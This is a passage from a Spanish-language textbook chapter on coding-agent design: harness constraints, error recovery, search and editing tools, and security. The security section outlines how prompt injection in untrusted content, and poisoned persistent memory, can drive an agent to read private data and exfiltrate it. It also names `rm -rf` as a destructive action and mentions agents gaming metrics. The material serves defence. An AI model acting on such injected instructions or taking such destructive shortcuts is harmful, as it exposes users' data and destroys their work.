**Otra finalidad de las restricciones: Prevenir errores procedimentales.** La baseline de aceptación supervisa si el resultado es correcto, mientras que los límites de ejecución supervisan el **proceso**: lograr el resultado correcto mediante un método equivocado sigue siendo inaceptable. Si al solucionar una falla en una base de datos se elimina la base de datos y se vuelve a crear, la "solución" habrá surtido efecto, pero los datos se habrán perdido; si al corregir un error de compilación se borra todo el código y se vuelve a escribir, la compilación pasará, pero la implementación habrá desaparecido. Estos atajos destructivos siempre existen: incluso si se añaden restricciones a los indicadores de evaluación finales, el Agente suele encontrar formas de eludirlos, lo que representa la forma cotidiana del reward hacking (hackeo de recompensa) analizado en el Capítulo 8 en las tareas de Agentes. Por ello, un Harness de nivel de producción debe establecer comprobaciones y aprobaciones específicas para acciones peligrosas como `rm -rf`, la eliminación de datos de producción o la sobrescritura de archivos no leídos (véase el análisis semántico en la sección de seguridad de este capítulo y la revisión por Sidecar del Capítulo 4), restringiendo la **acción** y no únicamente el resultado. El RLVP (Penalty for Verifiable Path / Penalización por ruta verificable: "recompensar el resultado, penalizar la ruta") del Capítulo 8 responde a la misma pregunta desde el lado del entrenamiento: además de las recompensas por el resultado final, aplicar penalizaciones a las acciones violatorias verificables durante el proceso convierte el "no usar medios destructivos" en un sentido común de ingeniería internalizado en el modelo. Para modelos existentes, las barreras del Harness son restricciones externas; para modelos entrenables, la penalización procedimental es una internalización intrínseca: ambos persiguen el mismo objetivo.

**Orquestación de herramientas: Control de fronteras de fallos**. Los Coding Agents maduros admiten llamadas a herramientas en paralelo. La pregunta única desde la perspectiva del Harness es **cómo se propagan los fallos**: cuando una herramienta falla, ¿qué llamadas deben interrumpirse y cuáles deben continuar? El principio establece que el fallo solo debe propagarse dentro del mismo lote de llamadas en paralelo, sin escalar a las operaciones padre. Por ejemplo, si se leen tres archivos simultáneamente y uno no se encuentra, se debe reportar únicamente el fallo de ese archivo, en lugar de cancelar los otros dos y mucho menos abortar la tarea completa. Este control fino de las fronteras de fallos evita el modelo frágil donde "el fallo de un comando provoca la interrupción de toda la tarea". Los mecanismos específicos de llamadas en paralelo, parseo en streaming y aborto en cascada se detallan en la sección "Consejos de implementación" de este capítulo.

### Recuperación de fallos y errores

La sección anterior presentó los principios y componentes de la Ingeniería de Harness; esta sección profundiza en el aspecto que mayor diferencia marca en la práctica de ingeniería: la **recuperación de fallos y errores**. Los experimentos de ablación del Capítulo 1 mostraron la gravedad del problema: la simple falta de retroalimentación en el resultado de una herramienta es suficiente para que el Agente caiga en un bucle infinito; y los fallos en entornos de producción reales son mucho más diversos que en los experimentos. Esta sección responde sistemáticamente a tres preguntas: ¿Qué fallos encuentra un Harness de nivel de producción? ¿Cómo detectarlos y recuperarse? ¿En qué momento es obligatorio terminar la ejecución?[^ch5-3]

[^ch5-3]: La taxonomía de fallos y el análisis de mecanismos de esta sección se basan en el estudio del código fuente de implementaciones de Agentes de nivel de producción como Claude Code. Las implementaciones concretas evolucionan rápidamente con las versiones; esta sección solo sintetiza los principios de ingeniería estables.

**Taxonomía de fallos: Fallos en cuatro capas.** El primer paso para el sistema es clasificar. Según la ubicación donde ocurre el fallo, se dividen en cuatro capas:

- **Capa API**: Límites de tasa (HTTP 429), sobrecarga del servicio, tiempo de espera de petición, interrupción de conexión, salida truncada al alcanzar el límite de longitud. Estos fallos no tienen relación con el contenido de la tarea y representan ruido de la infraestructura.
- **Capa de herramientas**: Invocaciones alucinadas (llamar a herramientas inexistentes), parámetros malformados (no cumplen con las restricciones de entrada de la herramienta), excepciones lanzadas durante la ejecución y la más peligrosa: que la herramienta devuelva repetidamente el mismo error y el modelo reintente sin aplicar ningún cambio.
- **Capa de contexto**: Desbordamiento de la ventana de contexto, fallos en la compresión, corrupción en la estructura de la trayectoria (por ejemplo, una llamada a herramienta a la que le falta el mensaje de resultado correspondiente).
- **Capa de flujo de control**: Bucles infinitos (ejecutar repetidamente la misma operación sin avanzar en absoluto) y espirales de la muerte (donde la propia lógica de recuperación activada por un error vuelve a invocar al LLM, falla nuevamente y desencadena una reacción en cadena).

**Detección: Clasificar primero, contar después.** El primer juicio tras capturar un fallo no es "si se debe reintentar", sino "si vale la pena reintentar". Solo tiene sentido reintentar errores reintentables (límites de tasa, sobrecarga, fluctuaciones de red); para errores no reintentables (parámetros no válidos, permisos insuficientes, herramientas inexistentes), reintentar sin cambios conducirá al mismo resultado sin importar cuántas veces se intente, siendo necesario modificar la entrada o la estrategia. Un Harness de nivel de producción mantiene una tabla de mapeo entre errores y estrategias de recuperación, en lugar de aplicar un enfoque genérico de "reintentar ante cualquier error".

Más allá de los errores individuales, es necesario detectar **patrones**. En primer lugar, huellas digitales de llamadas repetidas: calcular una huella digital para la combinación "nombre de herramienta + parámetros"; la aparición repetida de la misma huella es una señal clara de un bucle sin avance (la invocación repetida de la misma herramienta observada en los experimentos de ablación del Capítulo 1 responde a este patrón). En segundo lugar, contadores de fallos consecutivos: mantener contadores independientes para cada ruta de recuperación, sirviendo de base para los disyuntores explicados más adelante.

Existe además una categoría de fallos que no se manifiestan como errores explícitos, requiriendo un **monitoreo de actividad e integridad** dedicado. El modo de fallo más peligroso en las conexiones en streaming no es la desconexión (la cual lanza un error de inmediato), sino el bloqueo silencioso: la conexión se establece con éxito pero el flujo de datos se detiene, similar a un grifo abierto del que no sale agua. Los mecanismos de tiempo de espera de los SDK suelen cubrir únicamente la conexión inicial y no el proceso de transmisión, por lo que un Agente de nivel de producción requiere un guardián de inactividad independiente (watchdog timer: si no hay nueva salida tras superar un tiempo configurado, se determina que el sistema está bloqueado), el cual aborta el flujo colgado y activa un reintento. Esto se puede generalizar en un principio: **toda conexión de larga duración requiere una señal de actividad, en lugar de depender únicamente del tiempo de espera de conexión**. El monitoreo de integridad se enfoca en la estructura de la trayectoria: cuando se detecta que a una llamada a herramienta le falta su mensaje de resultado correspondiente, el sistema repara automáticamente la relación de emparejamiento antes de inyectarla en el contexto, en lugar de pasar una anomalía estructural al modelo o al usuario. Un detalle de ingeniería notable es que algunos Agentes de nivel de producción ejecutan simultáneamente el modo de producto y el modo de recopilación de datos de entrenamiento: en el modo de producto se pueden utilizar marcadores de posición para reparar mensajes faltantes, mientras que en el modo de entrenamiento se rechaza la reparación, ya que los marcadores sintéticos contaminarían los datos de entrenamiento. Este doble estándar de "tolerante en producto, estricto en entrenamiento" refleja el acoplamiento profundo entre el Harness y el entrenamiento del modelo.

**Recuperación: Escalación por niveles, transparencia gradual.** Los medios de recuperación se gradúan según el nivel de transparencia para el usuario; si se puede resolver en un nivel inferior, no se escala:

1. **Reintento silencioso**. La acción predeterminada para errores reintentables. Dos detalles determinan el éxito: aplicar un retroceso exponencial (exponential backoff) con un margen de variación aleatoria (jitter) para evitar que un gran número de clientes reintenten simultáneamente creando una segunda congestión, respetando las indicaciones de tiempo de espera devueltas por el servidor; y diferenciar entre llamadas en primer plano y en segundo plano (las fallas en peticiones del bucle principal se reintentan, mientras que las fallas en llamadas auxiliares en segundo plano como la generación de títulos o sugerencias de entrada se descartan directamente, evitando que los reintentos en segundo plano consuman cuotas de la cadena principal creando una "amplificación de reintentos").
2. **Degradar y continuar**. Cuando los reintentos son ineficaces, se modifica la petición misma antes de volver a intentar. Tomando como ejemplo la salida truncada al alcanzar el límite de longitud: primero se aumenta silenciosamente el límite superior de salida y se reenvía; si aún no es suficiente, se añade una metainstrucción al final del mensaje para que el modelo continúe la generación desde el punto de interrupción. Si el modelo principal sufre una sobrecarga continua, se degrada a un modelo de respaldo (siendo necesario despojar previamente los bloques de formato privados del modelo anterior, de lo contrario el nuevo modelo no podrá interpretar el historial de mensajes); si el modo de alto costo sufre un límite de tasa, se regresa temporalmente al modo estándar.
3. **Exposición al usuario**. Solo tras agotar todos los medios automáticos se presenta el error al usuario, adjuntando las acciones de recuperación que ya se han intentado.

Los errores a nivel de herramientas siguen una ruta distinta: **no terminan la sesión, sino que convierten el error en una entrada para el modelo**. Las invocaciones alucinadas reciben un resultado de error estructurado indicando que "la herramienta no existe"; los fallos en la validación de parámetros reciben un error acompañado de sugerencias sobre las restricciones de entrada; y los parámetros malformados (como entregar una cadena cuando se esperaba un objeto) se reparan mediante código antes de la ejecución. Estos errores ingresan al contexto con la identidad de un resultado de herramienta común, permitiendo que el modelo los corrija por sí mismo en la siguiente ronda; esta es la aplicación práctica del principio "cuanto más estructurada sea la retroalimentación, mejor": cuanto más concreto sea el error devuelto, mayor será la tasa de éxito de autocorrección del modelo.

El principio nuclear de esta sección es: **el límite del tratamiento de errores no es una sola petición, sino todo el bucle de recuperación**. Antes de confirmar que la recuperación es imposible, los errores intermedios no deben exponerse al consumidor (ya sea el usuario o los sistemas receptores de eventos en la cadena inferior): durante la recuperación se retienen los mensajes de error; si la recuperación tiene éxito, el consumidor no percibe nada; si todo falla, se liberan conjuntamente. Esta es la concreción de ingeniería del principio de corrección del Capítulo 1: "no exponer estados intermedios antes de confirmar que no hay recuperación posible".

**Terminación: Toda ruta de recuperación debe tener un límite superior.** Los propios mecanismos de recuperación pueden fallar, por lo que toda ruta de recuperación debe contar con un límite máximo de disyunción (circuit breaker): si la compresión de contexto falla consecutivamente un número determinado de veces, se abandona la compresión; si la clasificación de permisos falla consecutivamente, se recurre a la consulta manual; y la continuación de salida se intenta como máximo un número fijo de rondas. ¿De dónde proceden los umbrales? La respuesta es de los datos de la línea de producción y no de suposiciones arbitrarias. Tomando como ejemplo el límite de disyunción por compresión en Claude Code, el umbral de "3 veces consecutivas" proviene de estadísticas en sesiones reales: existió una sesión que falló consecutivamente más de tres mil veces en esta ruta de recuperación, donde solo este tipo de reintentos inútiles desperdiciaba alrededor de 250.000 llamadas API diarias a nivel global, y más de mil sesiones registraron más de 50 fallos consecutivos. El número 3 representa precisamente el punto de inflexión empírico entre "la inmensa mayoría de los fallos se recuperan antes de este punto" y "continuar reintentando es prácticamente inútil".

Más sutil que la disyunción en un solo punto es la **espiral de la muerte**: la lógica activada en la ruta de error vuelve a invocar al LLM, falla nuevamente y desencadena una reacción en cadena. Una forma en cadena real: el Agente se detiene por desbordamiento de contexto, lo que activa el gancho de parada (stop hook: lógica de limpieza que ejecuta automáticamente el Agente al finalizar) para "realizar un commit automático del código"; el gancho invoca al LLM para generar el mensaje de commit, lo que vuelve a provocar un desbordamiento de contexto y vuelve a activar el gancho. La protección se apoya en dos medidas: desactivar en la ruta de error cualquier lógica de efectos secundarios que vuelva a llamar al modelo (prefiriendo perder una función auxiliar, como la extracción automática de memoria), y utilizar un contador de profundidad de recursión para detectar e interrumpir las reacciones en cadena residuales. Finalmente, por encima de todos los mecanismos automatizados se requieren condiciones globales de terminación y escalación: número máximo de rondas de iteración, presupuesto máximo de la sesión, y escalación a intervención humana cuando los fallos consecutivos superen el umbral.

### Consejos de implementación para Agentes de Código

El flujo de trabajo anterior representa el estado ideal. Para lograr que funcione realmente en la práctica se requieren varios consejos de implementación concretos: manteniendo la calidad del razonamiento, aumentar la velocidad de respuesta y reducir el consumo de contexto. Estos representan aplicaciones específicas en el dominio de la programación de las tecnologías generales de Agentes analizadas en los Capítulos 2 y 4.

**Llamadas a herramientas en paralelo, ejecución en streaming y aborto en cascada.**

Las implementaciones tradicionales de Agentes solían adoptar un modo secuencial: generar la llamada a una herramienta, ejecutarla, obtener el resultado y decidir el siguiente paso. Esta espera en fila estricta desperdiciaba una gran cantidad de tiempo.

Un Coding Agent moderno debe aprovechar al máximo las respuestas en streaming: el Capítulo 2 introdujo este mecanismo al discutir el orden de salida del modelo: una vez que los parámetros de la primera llamada a una herramienta han sido generados por completo y han superado la validación, la ejecución se puede iniciar de inmediato, sin necesidad de esperar a que el modelo genere las llamadas a herramientas posteriores. Por ejemplo, si el modelo debe emitir continuamente tres llamadas a herramientas en una sola inferencia (buscar código, consultar archivo de configuración, leer registros), la primera llamada puede iniciarse tan pronto como sus parámetros superen la validación, solapándose con el proceso de generación de las dos llamadas siguientes; además, las llamadas independientes entre sí se pueden ejecutar en paralelo en lugar de esperar en fila. Esta ejecución solapada reduce significativamente la latencia de extremo a extremo, haciendo que la respuesta del Agente sea más ágil.

La otra cara de la ejecución en paralelo es la gestión de fallos. Cada definición de herramienta debe declarar si admite la ejecución concurrente (por defecto no, como medida de seguridad ante fallos); cuando una llamada falla, se utiliza un mecanismo de aborto en cascada para terminar otras llamadas iniciadas en el mismo lote que dependan de dicho resultado, sin afectar las llamadas independientes ni las operaciones padre. Esta es la aplicación concreta del principio de "control de fronteras de fallos" de la sección de Ingeniería de Harness.

**Gestión fina del contexto.**

El desafío fundamental que enfrenta un Coding Agent radica en que los repositorios de código suelen ser extensos, mientras que la ventana de contexto del modelo es limitada. Aunque los modelos avanzados afirmen admitir millones de tokens, introducir todo el repositorio de código de golpe en el contexto no es ni económico ni necesario. La gestión inteligente del contexto debe desplegarse en múltiples niveles.

A nivel de lectura de archivos, el Agente no debe leer siempre el contenido completo del archivo. Para archivos grandes, la herramienta debe admitir la lectura de fragmentos específicos por rangos de números de línea (por ejemplo, leer únicamente de la línea 100 a la 150, en lugar de cargar archivos completos de miles de líneas). Más importante aún, al devolver el contenido se deben adjuntar etiquetas de número de línea: cada línea de código lleva su número de línea real como prefijo. Este diseño aparentemente simple aporta un enorme valor: permite al modelo referenciar con precisión "en la línea 42 de `src/main.py`", reduciendo la ambigüedad y haciendo que las operaciones de edición posteriores sean más confiables.

A nivel de ejecución de comandos, el tratamiento de las salidas de la terminal requiere una precaución similar. La compilación o las pruebas pueden generar miles de líneas de salida, las cuales agotarían rápidamente el presupuesto si se inyectaran por completo en el contexto. Los mecanismos de truncamiento de salidas largas y persistencia introducidos en el Capítulo 4 se aplican ampliamente aquí: conservar las primeras líneas de la salida (que suelen contener el contexto del error) y las últimas líneas (que suelen contener el resumen del error), sustituyendo la parte intermedia por un aviso explicativo que indica que la salida completa se ha guardado en un archivo temporal para su consulta a demanda.

**Inyección dinámica de información del entorno.**

Esta es la manifestación concentrada de la tecnología de la Barra de Estado del Agente del Capítulo 2 en los Coding Agents. A diferencia de los Agentes generales, un Coding Agent depende altamente del estado del entorno de ejecución. Antes de cada inferencia, se debe inyectar la siguiente información clave del entorno al final del contexto en forma de Barra de Estado del Agente:

- **Directorio de trabajo actual**: Garantizar que las referencias a rutas no contengan errores.
- **Rama git**: Conocer si se está trabajando en la rama principal o en una rama de características.
- **Registros de commits recientes**: Comprender la evolución del proyecto.
- **Resumen de cambios preparados y no preparados**: Tener claridad sobre qué modificaciones se han realizado.

Esta información no debe codificarse de forma fija en los prompts estáticos del sistema (eso destruiría la eficiencia del KV Cache), sino que debe generarse e inyectarse en tiempo real como una Barra de Estado del Agente dinámica y de tipo directo al final. De esta forma, el Agente adquiere capacidad de "percepción del entorno", basando cada decisión en una comprensión precisa del estado actual y no en suposiciones desactualizadas.

**Persistencia de estado del entorno de ejecución de comandos.**

Al interactuar con el código, muchas operaciones dependen del estado del entorno: cambiar de directorio, activar entornos virtuales, configurar variables de entorno o iniciar servicios en segundo plano. Si cada comando se ejecutara en una shell totalmente nueva, todos estos estados se perderían: el Agente cambiaría de directorio con `cd` al proyecto, y en el siguiente comando volvería al directorio raíz, teniéndose que repetir la misma configuración una y otra vez. Lo que es peor, el efecto de ciertas operaciones (como activar un entorno virtual de Python) solo es válido dentro de la sesión de shell actual, no pudiéndose transferir entre sesiones.

Por ello, se debe mantener una sesión de terminal persistente, creada al iniciar el Agente y mantenida activa durante todo el proceso de interacción. Cada comando se ejecuta dentro de esta terminal compartida, conservando el directorio de trabajo, las variables de entorno y el estado de la sesión. Este diseño se adapta mejor a los hábitos de trabajo de los desarrolladores humanos, quienes habitualmente trabajan dentro de una ventana de terminal de larga duración. Por supuesto, el Agente también debe conservar la capacidad de iniciar terminales aisladas para respaldar tareas en paralelo, siendo la sesión persistente el modo predeterminado.

**Mecanismo de retroalimentación sintáctica instantánea.**

Esto refleja nuevamente el valor de la tecnología de la Barra de Estado del Agente. Tras modificar el código, el Agente no debe esperar a que el usuario solicite explícitamente ejecutar pruebas para comprobar la sintaxis. El enfoque más eficiente consiste en que, tan pronto como se completa la escritura del archivo, la capa de herramientas ejecute automáticamente el Linter o verificador sintáctico correspondiente, presentando los resultados como parte del valor devuelto por la herramienta. Si se detecta un error de sintaxis, el Agente ve la información detallada del error en la siguiente ronda de inferencia, de manera similar a como un editor resalta en rojo un paréntesis incorrecto al programar. Este mecanismo de retroalimentación instantánea reduce significativamente el costo de corrección de errores, ya que el Agente puede corregir la falla en el momento preciso en que se introduce, sin tener que esperar a ejecutar las pruebas.

Estos cinco consejos de implementación (paralelismo y streaming, gestión de contexto, percepción del entorno, persistencia de estado y retroalimentación instantánea) conforman la base técnica de un Coding Agent eficiente. No son puntos de optimización aislados, sino decisiones de diseño interconectadas que persiguen un objetivo común: permitir que el Agente trabaje con la misma fluidez que un desarrollador experimentado.

### Herramientas de búsqueda en Agentes de Código

Localizar el código relevante en un repositorio extenso es el punto de partida del trabajo de un Coding Agent. La Figura 5-3 compara varias herramientas de búsqueda complementarias, ilustrando cómo un Coding Agent maduro debe seleccionar el método de recuperación según la naturaleza de la tarea.


**Coincidencia de contenido por expresiones regulares** (grep/ripgrep): El método de búsqueda más tradicional, que escanea línea por línea el contenido de los archivos buscando patrones. Cuando el Agente conoce el texto específico a buscar (nombres de funciones, variables, mensajes de error), puede localizar rápidamente y con precisión todas las apariciones. La potente capacidad de expresión de las expresiones regulares (sintaxis que describe patrones de texto usando símbolos especiales, como `def handle.*`, que coincide con todas las definiciones de función que comienzan por `handle`) permite capturar patrones complejos, buscando no solo texto literal sino también fragmentos de código que cumplen una estructura determinada. En el uso práctico, se debe admitir el filtrado por tipo de archivo (buscar solo en archivos Python) y por patrones de ruta (excluir directorios de prueba) para reducir el ruido. Su limitación fundamental radica en que solo encuentra coincidencias literales a nivel de texto, sin comprender la semántica: al buscar "autenticación de usuario", no podrá encontrar funciones que manejen la lógica de inicio de sesión si no contienen explícitamente esa palabra.

**Coincidencia de patrones por nombre de archivo** (glob): No examina el contenido de los archivos, sino que busca únicamente en la estructura de rutas del sistema de archivos aquellos que coinciden con un patrón. Por ejemplo, `**/*.test.ts` encuentra recursivamente todos los archivos de prueba en TypeScript, y `src/components/**/Button.tsx` busca `Button.tsx` a cualquier profundidad dentro de `components`. Es mucho más rápido que la búsqueda por contenido (no requiere abrir ni leer archivos) y constituye el primer paso del Agente para explorar la estructura del proyecto, estableciendo el marco organizativo al escanear rápidamente todo el sistema de archivos.

**Búsqueda semántica de código**: A diferencia de los dos métodos anteriores de coincidencia exacta, intenta comprender el "significado" de la consulta y del código. Requiere resolver dos problemas clave:

- **Segmentación con percepción de estructura**: El código posee una estructura sintáctica estricta, por lo que debe dividirse en unidades semánticas completas (funciones, clases, métodos) y no por un número fijo de caracteres a ciegas.
- **Recuperación híbrida** (el Capítulo 3 detalló esta pila tecnológica): La incrustación de vectores (vector embeddings) destaca en la búsqueda de código semánticamente similar pero con terminología diferente (por ejemplo, buscar "verificar identidad de usuario" permite encontrar una función llamada `check_credentials`), mientras que la coincidencia por palabras clave destaca en la coincidencia exacta de nombres de funciones y variables. Ambos se ejecutan en paralelo y se combinan mediante un modelo de reordenamiento (reranker, que utiliza un codificador cruzado para ordenar las coincidencias de forma precisa).

La búsqueda semántica es especialmente adecuada para tareas exploratorias, como buscar código relacionado con "interacción con la base de datos" o "validación de entradas de usuario" en un repositorio desconocido.

Sin embargo, existe un debate abierto en la industria sobre si vale la pena construir índices de incrustaciones para la búsqueda semántica. Los Agentes orientados a la terminal representados por Claude Code optan deliberadamente por **no construir índices de incrustaciones**, apoyándose exclusivamente en la búsqueda en vivo mediante `grep` + `glob` agentizados; de este modo no es necesario mantener índices que se desactualizan continuamente con la evolución del código, se prescinde de toda la infraestructura de indexación. Por otro lado, herramientas integradas en el IDE como Cursor siguieron inicialmente la ruta opuesta: están dispuestas a asumir el costo de indexación para lograr una **recuperación semántica entre archivos**, apoyándose en índices de incrustaciones para localizar rápidamente en repositorios masivos fragmentos semánticamente relevantes con terminología variada. Hoy en día, IDEs como Cursor también se han pasado a la búsqueda en vivo con grep + glob.

**Búsqueda de definiciones y referencias a nivel de símbolo**: Basada en capacidades similares a las del IDE para "ir a la definición" y "buscar todas las referencias", permite diferenciar entre definiciones e Invocaciones de símbolos con el mismo nombre (por ejemplo, reconoce que `authenticate` en la línea 42 es una definición de función y en la línea 189 es una llamada, mientras que la búsqueda de texto solo encuentra todas las líneas con esa cadena). Los agentes de codificación predominantes no emplean actualmente este enfoque.

Estas cuatro modalidades de búsqueda forman una caja de herramientas complementaria que suele combinarse en la práctica: utilizando primero la búsqueda semántica para encontrar los módulos relevantes, luego la coincidencia por expresiones regulares para precisar las líneas de código concretas, y finalmente la búsqueda por símbolos para rastrear la cadena de llamadas, siguiendo una estrategia progresiva "de lo general a lo fino, de lo semántico a lo sintáctico".

### Herramientas de edición de archivos en Agentes de Código

La dificultad de editar archivos no reside en la operación en sí, sino en cómo lograr que el LLM le indique al sistema "dónde modificar y cómo modificar" de forma eficiente y confiable. La Figura 5-4 compara cinco esquemas de edición de archivos, mostrando la tensión fundamental entre la expresión del lenguaje humano y la ejecución precisa de las máquinas.



**Descripción Diff + Modelo de Aplicación**: El modelo no especifica directamente cómo editar el archivo, sino que genera una descripción de los cambios (que puede ser un texto de diferencias similar a `git diff` que indica qué líneas se eliminan y cuáles se añaden, o un esqueleto de código con marcas de omisión que salta las partes no modificadas mediante comentarios). Esta descripción se entrega a un "Modelo de Aplicación" (Apply Model) dedicado (por lo general otro LLM más pequeño y rápido) encargado de fusionarla con el archivo original para producir el archivo completo nuevo. Este diseño de separación de responsabilidades permite que el modelo principal se concentre en la lógica de alto nivel y el modelo de aplicación en las operaciones de texto de bajo nivel. La fragilidad de las implementaciones ingenuas radica en la fusión: si la descripción difiere ligeramente del código real, es necesario juzgar si se trata de la misma ubicación, y si existen múltiples fragmentos similares, puede fusionarse en el lugar equivocado. Cursor representa la evolución continua de esta ruta: el modelo principal emite un esqueleto de código con omisiones, y un pequeño modelo `fast-apply` entrenado específicamente reescribe el archivo completo, utilizando decodificación especulativa (speculative decoding, validando en paralelo usando el contenido original como borrador) para alcanzar velocidades de fusión superiores a los mil tokens por segundo, intercambiando inversión de ingeniería por confiabilidad y velocidad.

**Cadena antigua a cadena nueva** (Old String → New String): El esquema adoptado por Claude Code. El modelo proporciona la `old string` (texto original a reemplazar) y la `new string` (nuevo texto de reemplazo), y el marco ejecuta una búsqueda y reemplazo simple. Las ventajas son la predecibilidad y la transparencia: si la `old string` existe y es única en el archivo, la operación tiene éxito; de lo contrario falla, sin ambigüedades. El costo reside en que para eliminar grandes bloques de código es necesario emitir todo el contenido original completo, donde un solo carácter de desviación provocará un fallo de coincidencia; y si el mismo código aparece múltiples veces, se debe proporcionar un contexto más largo para eliminar la ambigüedad.

**Orientación por número de línea** (Old Line Numbers → New String): El modelo especifica "eliminar de la línea X a la Y e insertar el nuevo contenido". Los números de línea son precisos y sin ambigüedad, requiriendo solo dos números para eliminar grandes bloques. Sin embargo, los modelos suelen cometer errores al "contar" líneas, especialmente en archivos extensos. En la práctica se suele mitigar añadiendo etiquetas de número de línea al leer el archivo, pero tras cada edición los números de línea posteriores cambian, lo que limita la ejecución en paralelo de múltiples ediciones.

**Comandos de edición tipo Vim**: Inspirados en el sistema de comandos del editor Vim, admiten operaciones ricas como copiar, cortar y pegar. Resultan altamente eficientes para reestructurar código (mover una función de un lugar a otro). No obstante, la carga de aprendizaje de la sintaxis de comandos es mayor; solo los modelos más potentes logran utilizarlos adecuadamente, mientras que en modelos más pequeños la tasa de error aumenta significativamente.

**Coincidencia inicio y fin de cadena** (Old String Start + End → New String): Se puede considerar una mejora sobre el esquema de reemplazo de cadena antigua. El modelo no necesita emitir la `old string` completa, sino solo las primeras y últimas líneas del contenido a eliminar, omitiendo la parte intermedia. El marco localiza el área de reemplazo haciendo coincidir este inicio y fin, funcionando con precisión siempre que este par sea único en el archivo. Este esquema combina la confiabilidad del reemplazo de texto con la eficiencia de los números de línea: al eliminar grandes bloques de código no se requiere emitir cientos de líneas originales, bastando con mostrar los límites. Al mismo tiempo, al basarse en la coincidencia de contenido y no en números de línea abstractos, el riesgo de error del modelo es relativamente bajo.

**Recomendaciones prácticas**. En conjunto, los Coding Agents principales se dividen en dos rutas representativas: Claude Code adopta el esquema "cadena antigua a cadena nueva" (priorizando la confiabilidad, la simplicidad de implementación y la ausencia de modelos adicionales); mientras que Cursor ha llevado la ruta del Apply Model al extremo (intercambiando entrenamiento e inferencia de modelos `fast-apply` dedicados por un mayor rendimiento de edición). Para Agentes de desarrollo propio, "cadena antigua a cadena nueva" es el punto de partida más seguro; para modificaciones de grandes bloques, "coincidencia inicio y fin de cadena" representa un compromiso más económico; mientras que el esquema por números de línea solo es confiable en escenarios con integración profunda en el IDE (donde el editor mantiene en tiempo real el mapeo de líneas y lo suministra al modelo tras cada edición), de lo contrario es propenso a fallos por deriva de líneas.

### Seguridad para Agentes de Código

Esta sección consolida la línea de defensa de seguridad de un Coding Agent en una narrativa completa: primero delinea el **modelo de amenazas** (cuáles son los riesgos más letales); luego analiza el **aislamiento como garantía de respaldo** (la salida a red del sandbox, el sistema de archivos y las cuotas de recursos); después la **defensa en tiempo de ejecución** (el análisis semántico de comandos y la ejecución especulativa que hace invisibles las comprobaciones de seguridad); y finalmente aborda la **confianza y la lealtad** (a quién es leal el Agente bajo una delegación multipartita, y cómo mover la frontera de confianza hacia la capa de datos cuando el código escrito por la IA no es confiable por sí mismo). Las discusiones sobre el modelo de amenazas, la lealtad y las fronteras de confianza son generales para todos los Agentes, mientras que el sandbox y el parseo de comandos representan incrementos específicos de los Coding Agents.

Este paradigma de "Agente soberano" también plantea serios desafíos de seguridad. Un Coding Agent posee permisos para leer y escribir archivos, ejecutar comandos y acceder a la red, lo que significa que una vez inyectada una instrucción maliciosa, podría causar pérdidas irreversibles. Simon Willison, desarrollador e investigador independiente, resumió este riesgo en la famosa **Tríada Mortal (Lethal Triad)**: cuando los tres elementos están presentes, se conforma un bucle de ataque completo y el sistema pasa a ser de alto riesgo:

1. **Acceso a datos privados**: El Agente puede leer archivos del usuario y gestores de contraseñas.
2. **Exposición a contenido no confiable**: Los correos electrónicos y páginas web procesadas pueden contener cargas maliciosas.
3. **Capacidad de comunicación externa**: Puede enviar correos electrónicos y ejecutar comandos.

La ruta de ataque se cierra de esta manera: la instrucción maliciosa se esconde en el contenido no confiable que ingresa al Agente, impulsándolo a leer datos privados para luego transmitirlos a través del canal externo. Nótese que la presencia simultánea de los tres elementos es suficiente para ser peligrosa por sí sola, sin requerir condiciones adicionales. Sobre esta base, el autor añade una cuarta dimensión: la **memoria persistente**. No es una cuarta condición necesaria equivalente, sino un amplificador del ataque: el atacante puede escribir sesgos o instrucciones maliciosas en la memoria a largo plazo del Agente para que queden latentes entre sesiones y se activen en el momento oportuno, transformando un ataque puntual en una infiltración y amplificación a largo plazo.

Estas cuatro dimensiones se pueden resumir en cuatro fronteras: frontera de datos, frontera de confianza de entrada, frontera de impacto de salida y frontera entre sesiones. Un Agente local con permisos completos como OpenClaw reúne precisamente las cuatro, por lo que la protección de seguridad se convierte en un desafío central que este tipo de Agentes debe afrontar abiertamente.

Esto también explica por qué los Agentes comerciales de código cerrado (como Claude Cowork, el Agente general de Anthropic orientado al trabajo del conocimiento que reutiliza la arquitectura agentizada de Claude Code para leer y escribir archivos locales y realizar tareas de múltiples pasos en aplicaciones de oficina) optaron por estrategias de permisos conservadoras. Frente a la amenaza de inyección de prompts, filtrar únicamente las entradas resulta insuficiente. El punto crucial no es identificar todos los ataques, sino garantizar que, incluso si el Agente es inyectado, no tenga la oportunidad de ejecutar acciones peligrosas en el mundo real. Aquí es precisamente donde entran en juego las tres capas de barreras del Capítulo 1. En comparación con otros Agentes, los Coding Agents deben prestar especial atención a:

- **Análisis semántico de comandos**: La explosión combinatoria de los comandos Shell invalida las listas negras de palabras clave, haciendo necesario comprender el efecto real de los comandos en la capa semántica (se desarrollará más adelante).
- **Aislamiento en sandbox y control de salida a la red**: La ejecución de código es una superficie de ataque única de los Coding Agents; la selección de ingeniería entre niveles de aislamiento y políticas de salida se detalla más adelante.
- **Línea de defensa entre sesiones en la memoria persistente**: Este es el elemento de extensión enfatizado en este capítulo más allá de la Tríada Mortal: el contenido escrito en la memoria a largo plazo debe pasar por el mismo escrutinio de confianza que el contenido externo, evitando que instrucciones maliciosas queden latentes y activas de forma prolongada en `MEMORY.md`.

Estas tres medidas complementarias se sitúan respectivamente en las capas de verificación, ejecución y datos, complementándose mutuamente con el sistema defensivo de los capítulos anteriores. Estas estrategias no pueden eliminar el riesgo por completo, pero reducen significativamente la superficie de ataque del Agente.

**Aislamiento como respaldo: Selección de ingeniería para el sandbox de ejecución de código.**

- **Control de salida a la red**. Esta es una de las medidas más fáciles de ignorar pero más críticas: denegar el acceso a la red por defecto y permitir la salida únicamente a destinos limitados mediante un proxy con lista blanca (repositorios de paquetes, sitios de documentación, API explícitamente requeridas por la tarea). Volviendo al tercer elemento de la Tríada Mortal ("capacidad de comunicación externa"), el control de salida a la red es su defensa en el plano de ejecución: incluso si la inyección de prompt tiene éxito y el código malicioso lee datos sensibles dentro del sandbox, sin una vía de salida no podrá transmitirlos al exterior. En comparación con intentar identificar cada inyección, cortar el canal de exfiltración de datos es una línea de defensa mucho más determinista.
